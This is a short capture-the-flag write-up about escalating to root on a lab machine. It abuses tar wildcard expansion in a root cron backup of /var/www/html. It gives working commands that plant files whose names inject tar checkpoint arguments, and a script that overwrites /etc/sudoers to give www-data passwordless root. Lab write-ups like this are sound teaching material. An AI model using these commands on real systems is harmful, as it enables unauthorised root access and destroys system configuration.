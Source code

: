 
backup.sh doing tar backup of /var/www/html

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301173723.png)

https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e

Navigate to backup directory

```
cd /var/www/html
```

Type:

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > runme.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh runme.sh"
echo "/var/www/html"  > --checkpoint=1
```

Wait to cron execute task and:

```
sudo su root
```

We have root access, now grab flag in /root/root.txt